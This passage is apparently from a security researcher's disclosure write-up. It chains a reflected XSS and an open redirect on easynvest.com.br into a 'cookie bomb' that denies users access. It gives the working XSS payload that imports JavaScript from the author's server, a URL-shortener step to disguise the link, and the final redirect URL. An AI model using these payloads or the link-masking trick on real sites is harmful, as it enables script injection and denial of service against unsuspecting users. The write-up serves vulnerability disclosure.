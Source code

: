 1. First we need to serve JavaScript on the Internet that makes the creation of cookies in an abusive way for our target:
    
    -
    ![Imagem](/images/publications/nuinvest/cookie-bomb-js.png)
    
    * Hosted on: [https://heitorgouvea.me/public/payloads/bomb.js](https://heitorgouvea.me/public/payloads/bomb.js)
    
    -

2. We need to get our RXSS to read/execute this JavaScript: 
    
    [https://indique.easynvest.com.br/?nome=><audio src="" onerror=import('//heitorgouvea.me/public/payloads/bomb.js');>&id=1]()

    -

3. We need to direct the user to this malicious RXSS in the least suspicious way possible: with a URL shortener we can mask our payload: [https://cutt.ly/syPnJXp]()

    -

The final payload looks like this: [https://easynvest.com.br/autenticacao?redirect_url=https://cutt.ly/syPnJXp]()

And this was the result:

<iframe width="100%" height="523" src="https://www.youtube.com/embed/-L2pl1Ke_Lo" title="Cookie Bomb - easynvest.com.br" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

---

### Impact

An attacker could use this chain of vulnerabilities to generate several scenarios that present some type of risk to users of the application, and this publication addressed only one of the possible scenarios where it shows the possibility that an attacker would be able to "make" the application unavailable for a certain group of users if they accessed the link sent by it.

---